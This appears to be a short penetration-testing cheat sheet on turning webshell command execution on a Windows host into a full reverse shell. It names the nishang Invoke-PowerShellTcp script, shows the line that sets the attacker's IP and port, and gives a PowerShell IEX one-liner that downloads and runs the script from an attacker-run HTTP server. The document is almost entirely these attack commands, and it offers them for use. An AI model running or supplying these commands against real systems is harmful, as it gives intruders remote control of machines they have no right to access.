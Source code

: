 # Webshell to Shell

## Windows

Got command execution through webshell? Use nishang Invoke-PowerShellTcp.ps1 to get a reverse shell:

```bash
#path:
/opt/nishang/Shells/Invoke-PowerShellTcp.ps1

#Add the following line at the end of the file:
Invoke-PowerShellTcp -Reverse -IPAddress $IPADDRESS -Port $PORT

#Use python HTTPServer and use IEX to upload and execute the file:
powershell "IEX(New-Object Net.WebClient).downloadString('http://XX.XX/file.ps1')"

```
